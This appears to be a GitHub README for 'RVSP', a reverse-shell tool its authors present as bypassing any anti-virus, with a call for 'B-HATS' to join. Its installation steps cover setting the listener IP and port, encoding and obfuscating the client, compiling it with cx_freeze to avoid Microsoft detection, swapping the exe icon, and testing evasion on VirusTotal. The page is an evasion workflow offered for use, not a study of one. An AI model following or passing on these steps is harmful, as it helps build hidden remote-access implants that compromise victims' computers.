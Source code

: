 ---------------------------------------------------------------------------------------------------------------------------|<br/>
-Hi everyone 👋, welcome to the RVSP github,<br/>

This project consist of bypassing any anti-virus by using a custom reverse-shell<br/>
coded by myself with the help of my friend patoche890. We decided to share this project to found a community of B-HATS<br/>
To Help us in our project. If you wanna help us, there's a discord link upside and in the top-right panel.<br/>
Go see it 👍<br/>
Enjoy our tool 👋<br/>

---------------------------------------------------------------------------------------------------------------------------|<br/>

<b>Installation :<b/>

1) You need to install Python 3.12<br>

2) In cmd run :
```ruby
pip install -r requirements.txt
```
3) Go into ./General-Users/Python-Files/ then edit Client.py :
```ruby
SERVER_HOST = '127.0.0.1' --> Put the Server-Listener IP
SERVER_PORT = 4444 --> Put the Server-Listener PORT
```
4) Run encode.py then paste the full path of your Client.py file<br>

5) Copy the encoded client.py then past it in decode-exec.py here :
```ruby
encoded = (""" HERE """)
```

6) Go to pyobfuscate.com And Obfusc the File like this :<br>
   -Code minifier (1)<br>
   -Var Obfusc (2)<br>

7) In the Tools folder you'll found the builder bat file, follow the instructions and the exe will be in the build folder.<br>

8) To change the exe icon or whatever, i've put you the RessourceHacker latest installer ( 18/06/2024 )

/!\ WARNING /!\ I use cx_freeze to compile the exe bcs pyinstaller is flagged by microsoft so you need all the Folder with the exe into it to run it<br>
DISCLAIMER : I recommend you to use an sfx archive, try different method and test it on VirusTotal, for me it haven't work with winrar.<br>
For any question go in the discord server.<br>

GOOD LUCK !
